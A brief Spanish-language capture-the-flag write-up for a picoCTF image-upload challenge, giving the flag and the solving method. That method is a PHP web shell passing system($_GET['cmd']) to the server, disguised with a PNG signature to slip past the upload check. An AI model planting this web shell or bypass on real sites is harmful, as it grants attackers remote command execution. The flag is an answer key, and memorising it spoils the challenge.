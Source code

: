 ## Descripción:
I found a web app that can help process images: PNG images only!Try it [here](http://atlas.picoctf.net:62676/)!

Hints:
None
## Solución:
```
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_03d1d548}
```

## Notas:
Subí un archivo .php
```
PNG
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
```
que al inicio contiene PHP al principio para que tenga la firma que es un archivo png y se pueda subir y ejecutar

Seguí su tutorial en YT para que tenga más visitas